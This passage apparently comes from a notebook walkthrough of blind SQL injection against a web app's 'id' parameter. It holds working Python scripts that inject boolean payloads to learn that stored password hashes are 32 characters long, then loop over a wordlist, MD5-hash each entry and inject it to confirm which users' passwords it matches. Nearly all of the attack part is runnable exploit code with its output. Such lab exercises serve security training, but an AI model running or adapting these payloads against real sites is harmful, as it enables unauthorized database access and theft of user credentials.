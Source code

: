 
#### 5.4 Info in the password column

##### 5.4.1 Let's see if the passwords are hashed or not.
To do this, we are going to check the size of the passwords. If all the passwords have the same size, then they are hashed.


```python
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT LENGTH(password) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.LENGTH.FOUND] = ", i)
```

    [PASSWORD.LENGTH.FOUND] =  32


All the passwords seem to have the same size: 32, so we can deduce that they are hashed.

And 32 makes us think of MD5. So brute force

##### 5.4.2 Let's try to crack passwords with a wordlist 


```python
import hashlib

def hash_md5(chaine):
    chaine_bytes = chaine.encode('utf-8')
    
    h = hashlib.md5()
    h.update(chaine_bytes)
    hash_md5 = h.hexdigest()
    
    return hash_md5
```


```python
passwords_found = []
wordlist_password = open("wordlist/password.txt", 'r')
Lines = wordlist_password.readlines()
sql_start = "' OR '"
sql_end ="' IN (SELECT password FROM users ) -- -"


for line in Lines:
    string_hashed = hash_md5(line.strip())
    id_param = sql_start  + string_hashed + sql_end
    params = {
        'id': id_param,
        'Submit': 'Submit'
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.FOUND] = ", line.strip())
        passwords_found.append(line.strip())

passwords_found
```
